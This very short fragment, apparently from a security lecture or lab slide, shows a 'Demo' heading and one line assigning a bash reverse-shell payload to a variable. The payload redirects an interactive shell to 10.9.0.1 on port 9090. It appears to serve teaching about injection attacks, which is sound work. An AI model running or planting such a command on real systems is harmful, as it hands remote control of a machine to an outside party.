

# Demo
data = "\n/bin/bash -i >/dev/tcp/10.9.0.1/9090 0<&1 2>&1\n"